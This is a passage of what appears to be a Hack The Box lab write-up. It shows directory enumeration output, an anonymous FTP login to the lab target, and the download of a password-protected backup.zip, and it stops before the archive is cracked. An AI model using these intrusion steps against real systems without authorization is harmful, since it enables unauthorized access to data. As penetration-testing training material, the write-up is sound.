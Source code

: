 ```SHELL
/.php                 (Status: 403) [Size: 278]
/license.txt          (Status: 200) [Size: 1100]
/dashboard.php        (Status: 302) [Size: 931] [--> index.php]
Progress: 436036 / 1543927 (28.24%)
```

## 2. Weaponization

## 3. Delivery

## 4. Exploitation

Let's try to connect to the FTP via anonymous access.

```SHELL
┌─[eu-starting-point-2-dhcp]─[10.10.15.56]─[bobinette@htb-ktojmy4srl]─[~]
└──╼ [★]$ ftp anonymous@10.129.11.179
Connected to 10.129.11.179.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

It's work and we discover a `backup.zip` file.

```SHELL
ftp> ls
229 Entering Extended Passive Mode (|||10018|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> 
```

So we download the file :
```SHELL
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10990|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |**********************************************************|  2533      609.11 KiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (212.83 KiB/s)
```

When we try to extract the file we see that we need a password :

![[Pasted image 20250115210426.png]]
